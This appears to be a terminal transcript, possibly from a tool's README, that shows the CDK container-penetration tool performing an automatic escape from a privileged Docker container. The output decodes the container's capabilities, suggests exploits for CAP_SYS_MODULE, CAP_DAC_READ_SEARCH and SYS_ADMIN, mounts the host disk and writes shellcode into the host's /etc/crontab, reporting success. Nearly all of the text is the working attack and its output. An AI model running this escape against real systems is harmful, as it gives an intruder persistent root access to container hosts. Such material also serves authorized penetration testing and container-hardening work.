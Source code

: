 ```bash
root@04584549e707:/tmp# ./cdk_linux_amd64 auto-escape /bin/sh       

[Auto Escape - Privileged Container]
2022/11/21 12:30:19 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000003fffffffff
        CapPrm: 0000003fffffffff
        CapEff: 0000003fffffffff
        CapBnd: 0000003fffffffff
        CapAmb: 0000000000000000
        Cap decode: 0x0000003fffffffff = CAP_CHOWN,CAP_DAC_OVERRIDE,CAP_DAC_READ_SEARCH,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_LINUX_IMMUTABLE,CAP_NET_BIND_SERVICE,CAP_NET_BROADCAST,CAP_NET_ADMIN,CAP_NET_RAW,CAP_IPC_LOCK,CAP_IPC_OWNER,CAP_SYS_MODULE,CAP_SYS_RAWIO,CAP_SYS_CHROOT,CAP_SYS_PTRACE,CAP_SYS_PACCT,CAP_SYS_ADMIN,CAP_SYS_BOOT,CAP_SYS_NICE,CAP_SYS_RESOURCE,CAP_SYS_TIME,CAP_SYS_TTY_CONFIG,CAP_MKNOD,CAP_LEASE,CAP_AUDIT_WRITE,CAP_AUDIT_CONTROL,CAP_SETFCAP,CAP_MAC_OVERRIDE,CAP_MAC_ADMIN,CAP_SYSLOG,CAP_WAKE_ALARM,CAP_BLOCK_SUSPEND,CAP_AUDIT_READ
        Added capability list: CAP_DAC_READ_SEARCH,CAP_LINUX_IMMUTABLE,CAP_NET_BROADCAST,CAP_NET_ADMIN,CAP_IPC_LOCK,CAP_IPC_OWNER,CAP_SYS_MODULE,CAP_SYS_RAWIO,CAP_SYS_PTRACE,CAP_SYS_PACCT,CAP_SYS_ADMIN,CAP_SYS_BOOT,CAP_SYS_NICE,CAP_SYS_RESOURCE,CAP_SYS_TIME,CAP_SYS_TTY_CONFIG,CAP_LEASE,CAP_AUDIT_CONTROL,CAP_MAC_OVERRIDE,CAP_MAC_ADMIN,CAP_SYSLOG,CAP_WAKE_ALARM,CAP_BLOCK_SUSPEND,CAP_AUDIT_READ
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
[!] CAP_SYS_MODULE enabled. You can escape the container via loading kernel module. More info at https://xcellerator.github.io/posts/docker_escape/.
Critical - SYS_ADMIN Capability Found. Try 'cdk run rewrite-cgroup-devices/mount-cgroup/...'.
Critical - Possible Privileged Container Found.
2022/11/21 12:30:19 starting to deploy exploit
{
  "device": "/dev/sda1",
  "mountpoint": "/etc/resolv.conf",
  "fstype": "ext4",
  "opts": [
    "rw",
    "relatime",
    "bind"
  ]
}
{
  "device": "/dev/sda1",
  "mountpoint": "/etc/hostname",
  "fstype": "ext4",
  "opts": [
    "rw",
    "relatime",
    "bind"
  ]
}
{
  "device": "/dev/sda1",
  "mountpoint": "/etc/hosts",
  "fstype": "ext4",
  "opts": [
    "rw",
    "relatime",
    "bind"
  ]
}
2022/11/21 12:30:19 found 1 devices in total.
success! device /dev/sda1 was mounted to /tmp/cdk_FJvUy

[/tmp/cdk_FJvUy]
2022/11/21 12:30:19 trying to write crontab to:  /tmp/cdk_FJvUy/etc/crontab
2022/11/21 12:30:19 exploit success, shellcodes wrote to:  /tmp/cdk_FJvUy/etc/crontab
```